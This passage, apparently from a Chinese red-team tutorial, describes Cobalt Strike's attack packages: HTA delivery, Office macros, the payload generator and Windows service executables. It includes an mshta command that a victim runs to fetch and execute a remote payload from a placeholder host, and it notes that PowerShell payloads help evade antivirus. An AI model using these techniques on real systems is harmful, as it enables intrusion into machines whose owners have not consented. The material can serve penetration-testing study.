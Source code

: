 ![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5Jt22BrBYgibxxsYFwX23A1Q48aPVbSic9dnmS3s9W8SLX10rceVytvZg/640?wx_fmt=jpeg)

  

  

然后会生成一个 URL 复制到

http://x.x.x.x:8008/download/file.ext

然后在受害者机器上运行

mshta http://x.x.x.x:8008/download/file.ext

然后 CS 端就可以收到上线了

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5WaCutnOHAUL3TLW5OOJk63szxjWSIUWdKmXqjHvDTAsficGK8vuibA7Q/640?wx_fmt=jpeg)

  

  

**2、MS Office Macro**

该程序包生成一个 MicrosoftOffice 的宏文件并提供将宏嵌入 Microsoft Word 或 Microsoft Excel 的说明。这个参考我钓鱼部分的宏文件制作部分的文章。

**3、payload Generator**

该程序包允许你以不同的多种格式导出 Cobalt Strike 的 stager。

运行 Attacks -> packages --> payload generator

该模块可以生成 n 种语言的后门 Payload, 包括 C,C#,Python,Java,Perl,Powershell 脚本，Powershell 命 令，Ruby,Raw, 免杀框架 Veli 中的 shellcode 等等…

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5tpibqqVwGzNpatPX19zpVr2ibtoSlRDkzkPo21ibW8Zum5Rib74t5ZXEog/640?wx_fmt=jpeg)

  

  

渗透 Windows 主机过程中，用的比较多的就是 Powershell 和 Powershell Command, 主要是因为其方便 易用，且可以逃避一下杀毒软件（AV）的查杀。

以 Powe rshell Command 为例，生成的 payload 为一串命令，只要在主机上执行这一串命令（主机需安 装 Powe rshell）, cs 即可收到主机的 beacon

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5opTdvNLyibruIZYqnhGGlibdOBr21icibECicyvOb2ofwZmIfsmcmRh7r6Q/640?wx_fmt=jpeg)

  

  

**4、Windows Executable (Windows 可执行文件)**

该程序包生成一个 Windows 可执行 Ar tifact，用于传送一个 payload stage r。这个程序包为你提供了多种输出选项。

Windows Serv ice EXE 是一个 Windows 可执行文件，可响应 Service Cont rol Manage r 命令。你可以使用这个可执行文件来作为使用 sc 命令起的 Windows 服务的调用程序，或使用 Metasploit 框架的 PsExec 模块生成一个自定义的可执行文件。

也就是说，普通的 EXE 和服务器启动调用的 EXE 是有区别是。利用 Windows ServiceEXE 生成的 EXE 才能用来作为服务自启动的 EXE, 利用 Cobalt Strike 中 Windows exe 生成的 EXE 不能作为服 务自启动的 EXE 程序 (因为不能响应 Service Control Manager)

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaicKmo497U2PIqIPcXWRaIt5SMH7MEDIF7d8mDxaFwbicaDrnMcQInicoYxWuOxqKVvUBF2zP3uaibblA/640?wx_fmt=jpeg)

  

  
